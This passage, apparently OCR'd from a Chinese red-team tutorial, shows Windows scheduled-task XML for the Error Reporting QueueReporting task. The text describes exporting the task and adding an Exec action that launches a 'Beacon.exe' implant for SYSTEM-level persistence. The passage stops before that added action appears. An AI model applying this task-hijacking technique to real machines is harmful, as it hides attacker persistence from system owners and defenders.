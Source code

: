 ```xml
  </Triggers>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>%windir%\system32\wermgr.exe</Command>
      <Arguments>-upload</Arguments>
    </Exec>
  </Actions>
</Task>
```

导出现有任务到文件，修改任务 XML，这里新增了一个 Exec 操作用于执行我们的 Beacon.exe。

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.6" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Version>1.5</Version>
    <SecurityDescriptor>D:(A;;FA;;;BA)(A;;FA;;;SY)(A;;FRFX;;;WD)</SecurityDescriptor>
    <Source>$(@%SystemRoot%\system32\wer.dll,-292)</Source>
    <Author>$(@%SystemRoot%\system32\wer.dll,-293)</Author>
    <Description>$(@%SystemRoot%\system32\wer.dll,-294)</Description>
    <URI>\Microsoft\Windows\Windows Error Reporting\QueueReporting</URI>
  </RegistrationInfo>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <MultipleInstancesPolicy>Queue</MultipleInstancesPolicy>
    <StartWhenAvailable>true</StartWhenAvailable>
    <IdleSettings>
      <StopOnIdleEnd>false</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <UseUnifiedSchedulingEngine>true</UseUnifiedSchedulingEngine>
  </Settings>
  <Triggers>
    <BootTrigger id="QueueReportingBootTrigger">
      <Delay>PT3M</Delay>
    </BootTrigger>
    <WnfStateChangeTrigger id="QueueReportingWnfTrigger">
      <StateName>7510BCA33A0B9441</StateName>
    </WnfStateChangeTrigger>
    <WnfStateChangeTrigger id="QueueReportingFreeNetworkTrigger">
      <StateName>7510BCA33E0B8441</StateName>
      <Data>03</Data>
    </WnfStateChangeTrigger>
    <WnfStateChangeTrigger id="QueueReportingACPowerTrigger">
      <Delay>PT3M</Delay>
      <StateName>7508BCA3380C960C</StateName>
      <Data>01</Data>
    </WnfStateChangeTrigger>
    <TimeTrigger id="QueueReportingTimeTrigger">
      <StartBoundary>2015-01-01T08:00:00+08:00</StartBoundary>
      <Repetition>
        <Interval>PT4H</Interval>
      </Repetition>
      <RandomDelay>PT1H</RandomDelay>
    </TimeTrigger>
```